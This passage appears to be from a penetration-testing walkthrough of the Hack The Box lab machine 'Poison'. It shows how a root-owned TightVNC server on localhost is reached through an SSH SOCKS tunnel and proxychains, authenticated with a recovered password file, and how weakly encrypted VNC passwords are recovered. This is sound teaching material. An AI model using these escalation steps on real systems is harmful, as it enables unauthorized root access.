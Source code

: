 charix@Poison~ % ps -auxww \| grep vnc

root 614 0.0 0.9 23620 8868 v0- I 14:00 0:00.04 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1

From this, we know that TightVNC is running as user root and this is listening on port 5901 on localhost. To access the VNC server, you first set up a tunnel using:

charix@Poison:~ %

ssh&gt; -D 1080

Forwarding port.

On our local box, you can confirm that you can access this port by using:

┌─\[rin@parrot\]─\[~/boxes/Poison\]

└──╼ $proxychains curl --http0.9 [http://127.0.0.1:5901](http://127.0.0.1:5901)

ProxyChains-3.1 \([http://proxychains.sf.net\](http://proxychains.sf.net\)\)

\|S-chain\|-&lt;&gt;-127.0.0.1:1080-&lt;&gt;&lt;&gt;-127.0.0.1:5901-&lt;&gt;&lt;&gt;-OK

RFB 003.008

Note that you used proxychains here to access the VNC server. You could have used the --socks5 argument to curl as well.

We can then run vncviewer using proxychains. This asks for a password and so trying the "secret" file that you got from unzipping "secret.zip" from charix's home directory:

┌─\[✗\]─\[rin@parrot\]─\[~/boxes/Poison\]

└──╼ $proxychains vncviewer -passwd secret 127.0.0.1:5901

ProxyChains-3.1 \([http://proxychains.sf.net\](http://proxychains.sf.net\)\)

\|S-chain\|-&lt;&gt;-127.0.0.1:1080-&lt;&gt;&lt;&gt;-127.0.0.1:5901-&lt;&gt;&lt;&gt;-OK

Connected to RFB server, using protocol version 3.8

Enabling TightVNC protocol extensions

Performing standard VNC authentication

Authentication successful

Desktop name "root's X desktop \(Poison:1\)"

Which launches a VNC session as root \(Figure 3-7\)

!\[A picture containing graphical user interface, text

Description automatically generated\]\(../.gitbook/assets/5%20%285%29.png\)

VNC session as root on Poison

VNC's encryption of passwords is more obfuscation than encryption as the key that is used for the DES encryption is well known. It is trivial to find an application that will decrypt the password in the file "secret" and it turns out to be "VNCP@$$!".

Telnet and FTP
